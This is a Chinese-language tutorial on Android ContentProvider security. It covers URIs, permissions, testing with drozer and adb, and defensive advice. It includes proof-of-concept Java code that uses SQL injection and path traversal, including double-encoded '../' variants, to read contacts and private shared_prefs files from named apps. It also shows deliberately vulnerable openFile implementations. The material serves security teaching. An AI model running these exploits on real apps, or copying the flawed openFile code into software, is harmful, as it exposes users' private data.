


原文 by 瘦蛟舞  
## 0x00 科普
所有的应用程序都必然涉及数据的输入与输出。在Android系统中，主要有4种数据存储模式：

1. Sharedferences：Sharedferences是一种轻型的数据存储方式，本质上是基于XML文件存储key-value键值对数据。通常用来存储一些简单的配置信息；  
2. File：使用文件进行数据存储（SDCard）；  
3. SQLite：SQLite是一个轻量级的数据库，存储结构化的数据，支持基本SQL语法，是常被采用的一种数据存储方式。Android为SQLite提供了一个名为SQLiteDatabase的类，封装了一些CRUD操作的API；     
4. Network：使用基于网络的服务获取数据。   

内容提供器用来存放和获取数据并使这些数据可以被所有的应用程序访问。它们是应用程序之间共享数据的唯一方法；不包括所有Android软件包都能访问的公共储存区域。   

Android为常见数据类型（音频，视频，图像，个人联系人信息，等等）装载了很多内容提供器。你可以看到在android.provider包里列举了一些，你还能查询这些提供器包含了什么数据。  

当然，对某些敏感内容提供器，必须获取对应的权限来读取这些数据。  
如果你想公开你自己的数据，你有两个选择：你可以创建你自己的内容提供器（一个ContentProvider子类）或者你可以给已有的提供器添加数据，前提是存在一个控制同样类型数据的内容提供器且你拥有读写权限。  


## 0x01 知识要点
参考：http://developer.android.com/guide/topics/providers/content-providers.html  
### Content URIs
content URI 是一个标志provider中的数据的URI．Content URI 中包含了整个provider 的以符号表示的名字(它的authority ) 和指向一个表的名字(一个路径)．  
当你调用一个客户端的方法来操作一个provider 中的一个表，指向表的content URI 是参数之一．  
  
A. 标准前缀表明这个数据被一个内容提供器所控制，它不会被修改。  
B. URI的权限部分，它标识这个内容提供器。对于第三方应用程序，这应该是一个全称类名（小写）以确保唯一性。权限在元素的权限属性中进行声明：  
```
    <provider name=".TransportationProvider"
      authorities="com.example.transportationprovider"
      . . .  >
```
C. 用来判断请求数据类型的路径。这可以是0或多个段长。如果内容提供器只暴露了一种数据类型（比如，只有火车），这个分段可以没有。如果提供器暴露若干类型，包括子类型，那它可以是多个分段长，例如，提供"land/bus", "land/train", "sea/ship", 和"sea/submarine"这4个可能的值。  
D. 被请求的特定记录的ID，如果有的话。这是被请求记录的_ID 数值。如果这个请求不局限于单个记录， 这个分段和尾部的斜线会被忽略：  
`content://com.example.transportationprovider/trains`  

### ContentResolver
ContentResolver 的方法们提供了对存储数据的基本的"CRUD" (增删改查)功能
```
getIContentProvider() 
      Returns the Binder object for this provider.

delete(Uri uri, String selection, String[] selectionArgs) -----abstract
      A request to delete one or more rows.

insert(Uri uri, ContentValues values) 
      Implement this to insert a new row.

query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) 
      Receives a query request from a client in a local process, and returns a Cursor.

update(Uri uri, ContentValues values, String selection, String[] selectionArgs) 
      Update a content URI.

openFile(Uri uri, String mode) 
      Open a file blob associated with a content URI.
```
### Sql注入
sql 语句拼接
```
// 通过连接用户输入到列名来构造一个选择条款
String mSelectionClause =  "var = " + mUserInput;
```
参数化查询
```
// 构造一个带有占位符的选择条款
String mSelectionClause =  "var = ?";
```
### 权限
下面的 元素请求对用户词典的读权限：  
`<uses-permission android:name="android.permission.READ_USER_DICTIONARY">`

申请某些 protectionLevel="dangerous" 的权限  
```
<uses-permission android:name="com.huawei.dbank.v7.provider.DBank.READ_DATABASE"/>  申请权限
<permission android:name="com.huawei.dbank.v7.provider.DBank.READ_DATABASE" android:protectionLevel="dangerous"></permission> 声明权限
```
android:protectionLevel  
normal:默认值。低风险权限，只要申请了就可以使用，安装时不需要用户确认。  
dangerous：像 WRITE_SETTING 和 SEND_SMS 等权限是有风险的，因为这些权限能够用来重新配置设备或者导致话费。使用此protectionLevel 来标识用户可能关注的一些权限。  
Android 将会在安装程序时，警示用户关于这些权限的需求，具体的行为可能依据Android 版本或者所安装的移动设备而有所变化。  
signature：这些权限仅授予那些和本程序应用了相同密钥来签名的程序。  
signatureOrSystem:与signature类似，除了一点，系统中的程序也需要有资格来访问。这样允许定制Android系统应用也能获得权限，这种保护等级有助于集成系统编译过程。  

### API
Contentprovider 组件在API-17（android4.2）及以上版本由以前的exported 属性默认ture 改为默认false。  
Contentprovider 无法在android2.2（API-8）申明为私有。
```
<!-- *** POINT 1 *** Do not (Cannot) implement Private Content Provider in Android 2.2 (API Level 8) or earlier. -->
<uses-sdk android:minSdkVersion="9" android:targetSdkVersion="17" />
```
### 关键方法

* public void addURI (String authority, String path, int code)
* public static String decode (String s)
* public ContentResolver getContentResolver()
* public static Uri parse(String uriString)
* public ParcelFileDescriptor openFile (Uri uri, String mode)
* public final Cursor query(Uri uri, String[] projection,String selection, String[] selectionArgs, String sortOrder)
* public final int update(Uri uri, ContentValues values, String where,String[] selectionArgs)
* public final int delete(Uri url, String where, String[] selectionArgs)
* public final Uri insert(Uri url, ContentValues values)

## 0x02 content provider 分类

  

这个老外分的特别细，个人认为就分private、public、in-house 差不多够用。

## 0x03 安全建议
1. minSdkVersion不低于9
2. 不向外部app提供的数据的私有content provider设置exported=“false”避免组件暴露(编译api小于17时更应注意此点)
3. 使用参数化查询避免注入
4. 内部app 通过content provider 交换数据设置 protectionLevel=“signature” 验证签名
5. 公开的content provider 确保不存储敏感数据
6. Uri.decode() before use ContentProvider.openFile()
7. 提供asset 文件时注意权限保护

## 0x04 测试方法
1、反编译查看AndroidManifest.xml（drozer扫描）文件定位content provider是否导出，是否配置权限，确定authority  
drozer:  
`run app.provider.info -a cn.etouch.ecalendar`

2、反编译查找path，关键字addURI、hook api 动态监测推荐使用zjdroid  
3、确定authority 和path 后根据业务编写POC、使用drozer、使用小工具Content Provider Helper、adb shell // 没有对应权限会提示错误
```
adb shell：
adb shell content query --uri <URI> [--user <USER_ID>] [--projection <PROJECTION>] [--where <WHERE>] [--sort <SORT_ORDER>]
content query --uri content://settings/secure --projection name:value --where "name='new_setting'" --sort "name ASC"
adb shell content insert --uri content://settings/secure --bind name:s:new_setting --bind value:s:new_value
adb shell content update --uri content://settings/secure --bind value:s:newer_value --where "name='new_setting'"
adb shell content delete --uri content://settings/secure --where "name='new_setting'"
```
drozer：  
`run app.provider.query content://telephony/carriers/preferapn --vertical`

## 0x05 案例
### 案例1：直接暴露
``` java
private void getyouni()
{

    int i = 0;

    ContentResolver contentresolver = getContentResolver();

    String[] projection = {"* from contacts--"};

    Uri uri = Uri.parse("content://com.snda.youni.providers.DataStructs/message_ex");

    Cursor cursor = contentresolver.query(uri, projection, null, null, null);

    String text = "";

    while (cursor.moveToNext())
    {

        text += cursor.getString(cursor.getColumnIndex("display_name")) + '\n';

    }

    Log.i("TEST", text);

}
```
### 案例2：需权限访问

米聊多处content provider 暴露
```
<provider android:name=".providers.BuddyProvider" android:readPermission="com.xiaomi.channel.READ_BUDDY" android:writePermission="com.xiaomi.channel.WRITE_BUDDY" android:exported="true" android:authorities="com.xiaomi.channel.providers.BuddyProvider" />
```
首先权限声明如下:
```
<permission android:name="com.xiaomi.channel.READ_BUDDY" />

<permission android:name="com.xiaomi.channel.WRITE_BUDDY" />

<uses-permission android:name="com.xiaomi.channel.READ_BUDDY" />

<uses-permission android:name="com.xiaomi.channel.WRITE_BUDDY" />
```
再利用案例1 类似的手法，再利用SQL注入的方式能够访问到数据库中其他的表

### 案例3：openFile文件遍历
该Provider实现了openFile()接口，通过此接口可以访问内部存储app_webview 目录下的数据，由于后台未能对目标文件地址进行有效判断，可以通过"../"实现目录跨越，实现对任意私有数据的访问
``` java
public void GJContentProviderFileOperations(){ 

    try{ 

        InputStream in = getContentResolver().openInputStream(Uri.parse("content://com.ganji.html5.localfile.1/webview/../../shared_prefs/userinfo.xml")); 

        ByteArrayOutputStream out = new ByteArrayOutputStream(); 

        byte[] buffer = new byte[1024]; 

        int n = in.read(buffer); 

        while(n>0){ 

            out.write(buffer, 0, n); 

            n = in.read(buffer); 

            Toast.makeText(getBaseContext(), out.toString(), Toast.LENGTH_LONG).show(); 

        } 

    }catch(Exception e){ 

        debugInfo(e.getMessage()); 

    } 

}
```
Override openFile method  
错误写法1：
``` java
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
    throws FileNotFoundException {
  File file = new File(IMAGE_DIRECTORY, paramUri.getLastPathSegment());
  return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
}
```
错误写法2：URI.parse()
``` java
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
    throws FileNotFoundException {
    File file = new File(IMAGE_DIRECTORY, Uri.parse(paramUri.getLastPathSegment()).getLastPathSegment());
    return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
}
```
POC1：
``` java
String target = "content://com.example.android.sdk.imageprovider/data/" + "..%2F..%2F..%2Fdata%2Fdata%2Fcom.example.android.app%2Fshared_prefs%2FExample.xml";

ContentResolver cr = this.getContentResolver();
FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));

byte[] buff = new byte[fis.available()];
in.read(buff);
``` 
POC2：double encode
``` java
String target = "content://com.example.android.sdk.imageprovider/data/" +
"%252E%252E%252F%252E%252E%252F%252E%252E%252Fdata%252Fdata%252Fcom.example.android.app%252Fshared_prefs%252FExample.xml";

ContentResolver cr = this.getContentResolver();
FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));

byte[] buff = new byte[fis.available()];
in.read(buff);
``` 
解决方法Uri.decode()
``` java
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
  public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
      throws FileNotFoundException {
    String decodedUriString = Uri.decode(paramUri.toString());
    File file = new File(IMAGE_DIRECTORY, Uri.parse(decodedUriString).getLastPathSegment());
    if (file.getCanonicalPath().indexOf(localFile.getCanonicalPath()) != 0) {
      throw new IllegalArgumentException();
    }
    return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
  }
```
## 0x06 参考
https://www.securecoding.cert.org/confluence/pages/viewpage.action?pageId=111509535  
http://www.jssec.org/dl/android_securecoding_en.pdf  
http://developer.android.com/intl/zh-cn/reference/android/content/ContentProvider.html  
